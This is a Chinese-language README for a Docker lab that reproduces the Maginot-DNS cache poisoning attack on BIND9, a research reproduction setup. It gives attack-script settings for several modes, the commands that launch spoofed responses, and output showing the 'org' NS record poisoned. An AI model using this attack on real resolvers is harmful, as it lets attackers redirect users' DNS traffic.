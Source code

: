 # mdns-docker
## 说明
本仓库环境用于本地复现Maginot-DNS攻击(BIND9环境)

## 环境搭建
```shell
docker compose up --build
```

## 实验复现
为简化实验环境与最大限度复现实验效果，`attacker`本身部署有权威服务器(即`attacker`同时有权威服务器以及攻击者两个角色)，且该权威服务器与`attack.py`进行通信，**可以泄露关键信息**，`attack`可以采用多种模式利用或不利用接收到的信息模拟多种情况

### 模式一
极简攻击模式，完全利用权威服务器提供的侧信道(`TXID`、`Source Port`)，一次达成攻击目的，模拟的是真实场景下的中间人攻击
- 配置
    ```python
    # --- PORT Configuration ---
    # - Set to a range(...) to enable port brute-force mode.
    # - Set to None to enable precise port mode (fetches from side-channel).
    PORT_RANGE = None
    # (Brute-force mode only) Number of ports to guess per round.
    PORT_NUM = 20

    # --- Transaction ID (TXID) Configuration ---
    # - Set to a range(...) to enable TXID brute-force mode.
    # - Set to None to enable precise TXID mode (fetches from side-channel).
    ID_RANGE = None
    # (Brute-force mode only) Number of TXIDs to guess per round.
    ID_NUM = 5

    ROUND_MAX = -1 # Maximum number of rounds to attempt, set -1 for unlimited
    ```
- 攻击
    ```shell
    docker compose exec -it attacker python3 attack.py

    [INFO] Round 1: Starting...
    [INFO] Round 1: Waiting for side-channel intelligence...
    [INFO] Round 1: Sending 20 spoofed packets...

    [SUCCESS] Cache poisoned successfully in round 1!
    ```

### 模式二
单独将`TXID`或者`Source Port`设置为已知的范围，另一个继续**利用侧信道的信息**
- 设置`TXID`，`Source Port`保持利用信息时：相当于kaminsky攻击
- 设置`Source Port`, `TXID`保持利用信息时：相当于流量泛洪进行暴力猜解`TXID`，实验环境无法达到论文中的高带宽、高负载环境时，可以使用该方式模拟
<br>
<br>
<!-- fdsfa -->

- 配置
    ```python
    # --- PORT Configuration ---
    # - Set to a range(...) to enable port brute-force mode.
    # - Set to None to enable precise port mode (fetches from side-channel).
    PORT_RANGE = range(32768, 60999)
    # (Brute-force mode only) Number of ports to guess per round.
    PORT_NUM = 60

    # --- Transaction ID (TXID) Configuration ---
    # - Set to a range(...) to enable TXID brute-force mode.
    # - Set to None to enable precise TXID mode (fetches from side-channel).
    ID_RANGE = None
    # (Brute-force mode only) Number of TXIDs to guess per round.
    ID_NUM = 60

    ROUND_MAX = 2000 # Maximum number of rounds to attempt, set -1 for unlimited
    ```
- 攻击
    ```shell
    docker compose exec -it attacker python3 attack.py

    [INFO] Round 1999: Poisoning check skipped
    [INFO] Round 2000: Starting...
    [INFO] Round 2000: Waiting for side-channel intelligence...
    [INFO] Round 2000: Sending 60 spoofed packets...

    [SUCCESS] Cache poisoned successfully in round 2000!
    [INFO] Round 2000: Reached maximum iterations, stopping.
    ```

### 模式三
完全暴力猜解，完全不利用提供的信息进行攻击


### 攻击结果
`org`域的NS记录被篡改为`kie-chi.com`，该域名是一个能够正常访问的域名（为了躲避BIND9的有效性审查）
- 验证攻击结果
    ```shell
    docker compose exec -it attacker dig @10.2.0.2 org NS
    ; <<>> DiG 9.18.33-1~deb12u2-Debian <<>> @10.2.0.2 org NS
    ; (1 server found)
    ;; global options: +cmd
    ;; Got answer:
    ;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 51125
    ;; flags: qr rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 2

    ;; OPT PSEUDOSECTION:
    ; EDNS: version: 0, flags:; udp: 1232
    ; COOKIE: 0eb1568a28bcf538010000006897002a6aed9abe6c649a10 (good)
    ;; QUESTION SECTION:
    ;org.                           IN      NS

    ;; ANSWER SECTION:
    org.                    3586    IN      NS      kie-chi.com.

    ;; ADDITIONAL SECTION:
    kie-chi.com.            3586    IN      A       59.110.55.234

    ;; Query time: 0 msec
    ;; SERVER: 10.2.0.2#53(10.2.0.2) (UDP)
    ;; WHEN: Sat Aug 09 08:00:42 UTC 2025
    ;; MSG SIZE  rcvd: 101
    ```
    ```shell
    docker compose exec -it attacker dig @10.2.0.2 www.org  
    
    ; <<>> DiG 9.18.33-1~deb12u2-Debian <<>> @10.2.0.2 www.org
    ; (1 server found)
    ;; global options: +cmd
    ;; Got answer:
    ;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 29247
    ;; flags: qr rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 1

    ;; OPT PSEUDOSECTION:
    ; EDNS: version: 0, flags:; udp: 1232
    ; COOKIE: d64ccc96cec86be2010000006896ffda99accbeeb9787deb (good)
    ;; QUESTION SECTION:
    ;www.org.                       IN      A

    ;; ANSWER SECTION:
    www.org.                86400   IN      A       1.2.3.4

    ;; Query time: 449 msec
    ;; SERVER: 10.2.0.2#53(10.2.0.2) (UDP)
    ;; WHEN: Sat Aug 09 07:59:22 UTC 2025
    ;; MSG SIZE  rcvd: 80
    ```